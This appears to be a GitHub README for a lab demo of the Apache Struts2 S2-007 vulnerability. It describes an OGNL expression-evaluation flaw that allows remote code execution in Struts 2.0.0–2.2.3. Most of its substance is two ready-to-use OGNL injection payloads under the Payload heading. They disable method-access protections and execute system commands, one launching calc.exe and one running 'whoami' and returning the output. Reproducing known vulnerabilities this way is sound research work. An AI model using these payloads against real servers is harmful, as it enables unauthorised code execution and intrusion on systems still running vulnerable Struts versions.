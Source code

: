 # S2-007 Demo

## Summary

Impact of vulnerability: Remote Code Execution

Affected Software: `Struts 2.0.0` - `Struts 2.2.3`

Problem: User input is evaluated as an `OGNL` expression when there's a conversion error. This allows a malicious user to execute arbitrary code. 

## Environment

Struts2: `struts-2.2.3`

Server: `Tomcat 8.5.53`

IDE: `idea 2020.1.1 ULTIMATE`

## POC



![{A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031]({A7084584-483F-4AA5-A99E-B1B26E8A911B}_20200619183031.jpg)

## Payload

- open `calc.exe`

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@java.lang.Runtime@getRuntime().exec("calc")) + '
  ```

- run command

  ```java
  ' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
  ```

## Reference

- [S2-007 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-007/README.zh-cn.md)


* [【Struts2-命令-代码执行漏洞分析系列】S2-007](https://xz.aliyun.com/t/2684)

* [S2-007](https://cwiki.apache.org/confluence/display/WW/S2-007)